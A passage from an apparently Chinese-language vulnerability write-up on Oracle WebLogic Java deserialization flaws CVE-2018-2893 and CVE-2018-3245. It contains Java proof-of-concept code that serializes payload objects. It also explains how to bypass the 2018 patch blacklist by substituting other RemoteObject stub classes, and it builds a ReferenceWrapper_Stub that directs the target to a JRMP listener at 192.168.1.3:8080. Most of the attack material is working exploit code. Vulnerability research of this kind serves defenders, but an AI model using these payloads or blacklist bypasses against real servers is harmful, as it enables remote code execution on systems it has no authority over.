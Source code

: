 ```java
        ser(streamMessage, "CVE_2018_2893.ser");
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }

    public static byte[] serialize(final Object obj) throws IOException {
        final ByteArrayOutputStream out = new ByteArrayOutputStream();
        serialize(obj, out);
        return out.toByteArray();
    }

    public static void serialize(final Object obj, final OutputStream out) throws IOException {
        final ObjectOutputStream objOut = new ObjectOutputStream(out);
        objOut.writeObject(obj);
    }
}
```

### 修复

补丁：18年7月 p27919965_1036_Generic
这次修复把经过resolveClass的java.rmi.server.RemoteObjectInvocationHandler给过滤了。

## CVE-2018-3245

>根据前面的分析可知，我们只需要找一个类似java.rmi.server.RemoteObjectInvocationHandler的类进行替换，就能继续绕过了。
>那么这个类应该满足以下条件：
>继承远程类：java.rmi.server.RemoteObject
>不在黑名单里边（java.rmi.activation. 、sun.rmi.server.）
>随便找了一下，符合条件的挺多的：
>javax.management.remote.rmi.RMIConnectionImpl_Stub
>com.sun.jndi.rmi.registry.ReferenceWrapper_Stub
>javax.management.remote.rmi.RMIServerImpl_Stub
>sun.rmi.registry.RegistryImpl_Stub
>sun.rmi.transport.DGCImpl_Stub

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.io.*;
import java.rmi.server.ObjID;
import java.util.Random;

public class CVE_2018_3245 {
    public static void main(String[] args) throws IOException {
        ObjID id = new ObjID(new Random().nextInt()); // RMI registry
        TCPEndpoint te = new TCPEndpoint("192.168.1.3", 8080);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        ReferenceWrapper_Stub wrapperStub = new ReferenceWrapper_Stub(ref);
        ser(wrapperStub, "CVE_2018_3245.ser");

    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
```